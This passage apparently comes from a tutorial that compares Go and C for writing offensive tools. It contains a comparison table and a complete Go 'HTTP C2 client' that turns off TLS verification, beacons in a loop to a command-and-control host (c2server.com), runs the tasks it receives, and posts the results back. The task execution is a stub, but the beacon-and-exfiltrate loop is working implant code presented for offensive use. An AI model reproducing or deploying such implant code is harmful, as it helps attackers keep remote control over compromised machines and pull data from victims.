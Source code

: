 **Comparison:**

|Aspect|Go Version|C Version|
|---|---|---|
|**Lines of Code**|~20|~40|
|**Cross-Platform**|Yes (one source)|No (Windows-specific)|
|**Memory Safety**|Yes|Manual (error-prone)|
|**Dependencies**|None (static)|ws2_32.lib|
|**Compilation**|`go build`|MinGW setup, linker flags|
|**Error Handling**|Built-in|Manual|

**Scenario 2: HTTP C2 Communication**

```go
// Go: HTTP C2 client in ~15 lines
package main

import (
    "bytes"
    "crypto/tls"
    "io"
    "net/http"
    "time"
)

func main() {
    // Skip TLS verification (for testing)
    tr := &http.Transport{
        TLSClientConfig: &tls.Config{InsecureSkipVerify: true},
    }
    client := &http.Client{Transport: tr}
    
    for {
        // Beacon to C2
        resp, _ := client.Get("https://c2server.com/beacon")
        task, _ := io.ReadAll(resp.Body)
        resp.Body.Close()
        
        // Execute task and send result
        result := executeTask(task)
        client.Post("https://c2server.com/result", "text/plain", 
                   bytes.NewBuffer(result))
        
        time.Sleep(60 * time.Second) // Sleep between beacons
    }
}

func executeTask(task []byte) []byte {
    // Task execution logic here
    return []byte("result")
}
```
